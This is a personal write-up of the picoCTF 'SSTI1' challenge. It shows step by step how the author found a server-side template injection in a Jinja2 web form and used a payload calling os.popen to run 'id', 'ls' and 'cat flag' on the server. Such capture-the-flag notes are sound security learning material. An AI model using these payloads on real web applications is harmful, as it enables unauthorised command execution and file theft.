# picoCTF - SSTI1


This is my notes to complete the SSTI1 from picoCTF!  

<br />
:::warning
**For obvious reasons, all the flags are hidden in this writeup.** 😉  
:::
<br />

--- 


## Room

:::note
https://play.picoctf.org/practice/challenge/492
:::

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

<Tabs
  defaultValue="info"
  values={[
    {label: 'Info', value: 'info'},
    {label: 'Room Hints', value: 'hints'},
  ]}>
  <TabItem value="info">
  


|             |                                                                             |
| ----------- | --------------------------------------------------------------------------- |
| Description | I made a cool website where you can announce whatever you want! Try it out! |
| Difficulty  | Easy                                                                        |
| Author      | Venax                                                                       |


  
  </TabItem>
  <TabItem value="hints">
  

  
    1. Server Side Template Injection


  
  </TabItem>
</Tabs>  

<br />


---


## Announcements


For this challenge, it's necessary to start an instance that provides access to a page with a textbox and a button;  
When submit anything in this textbox, it is printed on another page called "announce".  




<br />


## SSTI


After seeing the room hint, I realized that the challenge was a **Server Side Template Injection**, where it's possible to inject a malicious template expression, which will be processed by the page's template engine.  

While researching examples and ways to test this vulnerability, I found [this article](https://portswigger.net/web-security/server-side-template-injection) which shows examples of how to evaluate which template engine is running on the page.  


  
[PortSwigger article](https://portswigger.net/web-security/server-side-template-injection)  

<br />


## Maths


Through the previous article tree, I initially started by testing `${7*7}`, but **without success**, as it did not return the mathematic calculation. However, I moved forward and tested the next payload `{{7*7}}`, which **did return the calculation**, giving me certainty that I was on the right track.

```
{{7*7}}
```

  
  

<br />

Since the previous payload worked, I tested the next payload `{{7*'7'}}`, which also returned values ​​successfully, now knowing that I was dealing with the `Jinja2` template.

```
{{7*'7'}}
```

  
  
  

<br />


## PoC payload


Now that I know which template I was dealing, I searched for example payloads of *Server Side Template Injection in Jinja2*, where I found an article in a [GitHub repository](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3) with the following test payload, which prints the current user and the group to which they belong.  

  
[GitHub repo article](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3)  

<br />

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

  
 

<br />


## I am root 


Now that I knew of a payload that allowed me to run basic Linux commands as root, I modified it to list the files that were on the current server directory.  

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

  
  

<br />

Then, knowing which file I wanted to view, I modified the command again to print the contents of that file, which returned the challenge flag.  

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

  
  
